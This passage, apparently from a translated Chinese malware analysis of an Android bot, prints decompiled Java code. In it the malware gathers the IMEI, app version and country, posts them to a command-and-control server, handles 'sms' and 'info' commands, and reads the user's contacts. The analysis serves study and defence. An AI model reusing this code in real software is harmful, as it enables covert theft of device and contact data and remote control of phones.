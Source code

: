 ```
        this.parameters.add(new BasicNameValuePair("imei", TelephonyManagerWrapper.getTelephonyManager(context).getDeviceId()));
        this.parameters.add(new BasicNameValuePair("version", Constants.version));
        this.parameters.add(new BasicNameValuePair("country", context.getResources().getConfiguration().locale.getCountry()));
        serverResponse = ServerCommunicator.callC2(url, POST, this.parameters);
    `}` else if (this.command.startsWith("info")) `{`
        serverResponse = ServerCommunicator.callC2(url, StringDatabase.POST, this.parameters);
    `}` else `{`
        serverResponse = (JSONObject) var2;
        if (this.command.startsWith("sms")) `{`
            serverResponse = ServerCommunicator.callC2(url, StringDatabase.POST, this.parameters);
        `}`
    `}`

    if (StringDatabase.integerZero != 0) `{`
        if (!var4) `{`
            var3 = true;
        `}`

        MainService.e = var3;
    `}`

    return serverResponse;
`}`
```

需要注意的是，Constants类仅包含两个字段。这些变量的名称可以直接改成它们的值，例如下面的类：

```
public final class Constants `{`
    public static int int50005 = 50005;
    public static String version = "5";
`}`
```

6.9.1 onPostExecute

多亏我的一个朋友，我获得了使用JEB反编译的Java代码。代码仍然非常复杂，因为这一函数大概有250行之多。此外，还有很多try-catch结构和jump，这又给分析工作加大了难度。

SMALI等效代码大约有550行，这使得我们几乎无法分析。但根据SMALI代码，我们可以大概看到函数执行的操作：比较字符串，如果相匹配则执行代码。这可能代表Java代码确认后的命令处理。下面是反编译后未经修改的部分Java代码。

```
//[omitted]
try `{`
    if(v15.equals(String.valueOf(o.h) + o.E)) `{`
        this.w.edit().putLong(o.u, Long.valueOf((((long)(v8.optInt(i.t[17]) * 1000))) + System.currentTimeMillis()).longValue()).commit();
    `}`
    if(v15.equals(String.valueOf(o.h) + i.t[18])) `{`
        i.q(v8.optString(i.t[33]), v8.optString(o.c));
    `}`
    if(v15.equals(i.t[21] + o.f + i.t[16])) `{`
        v16 = v8.optString(i.t[33]);
        v17 = i.q.getContentResolver().query(ContactsContract$Contacts.CONTENT_URI, null, null, null, null);
        if(v17 != null) `{`
                goto label_125;
        `}`
            goto label_132;
    `}`
        goto label_160;
`}`
    catch(Throwable v2) `{`
    return;
```